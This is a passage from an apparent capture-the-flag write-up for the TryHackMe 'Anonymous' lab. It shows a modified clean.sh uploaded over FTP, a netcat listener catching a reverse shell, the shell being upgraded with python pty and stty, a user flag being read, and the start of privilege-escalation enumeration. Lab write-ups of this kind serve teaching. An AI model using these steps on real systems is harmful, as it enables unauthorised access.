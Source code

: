 ## Uploading the new `clean.sh`
```console
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
574 bytes sent in 0.00 secs (6.5168 MB/s)
```

After some time we got a shell.
```console
local@local:~/Documents/tryhackme/anonymous$ nc -nvlp 9001                                                                                                                
Listening on [0.0.0.0] (family 2, port 9001)                                            
Listening on 0.0.0.0 9001                                                               
Connection received on 10.10.144.74 47542                                               
/bin/sh: 0: can't access tty; job control turned off                              
$
```
## Getting a proper shell
```console
$ python -c "import pty;pty.spawn('/bin/bash')"                                  
namelessone@anonymous:~$
```
Hit CTRL + z to background the current process and type
```console
local@local:~/Documents/tryhackme/anonymous$ stty raw -echo
```
And type `fg` and hit enter twice and export TERM variable on the reverse shell.
```console
namelessone@anonymous:~$ export TERM=xterm 
```
Now we got a proper shell with autocompletion.

## Reading User flag
```console
namelessone@anonymous:~$ ls                                                                                                                                                     
pics  user.txt                                                                          
namelessone@anonymous:~$ cat user.txt                                                   
90d6f************************4740
```

# Privilege Escalation
Before running scripts like linpeas and LinEnum, I like to do basic Enumeration.

## Checking sudo privileges
```console
namelessone@anonymous:~$ sudo -l                                                                                                                                     [1588/2782]
[sudo] password for namelessone:                                                                                                                                                
Sorry, try again.                                                                                                                                                               
[sudo] password for namelessone:                                                        
sudo: 1 incorrect password attempt  
```
## Checking for SUID binaries
```console
namelessone@anonymous:~$ find / -type f -perm -4000 2>/dev/null | grep -i env
```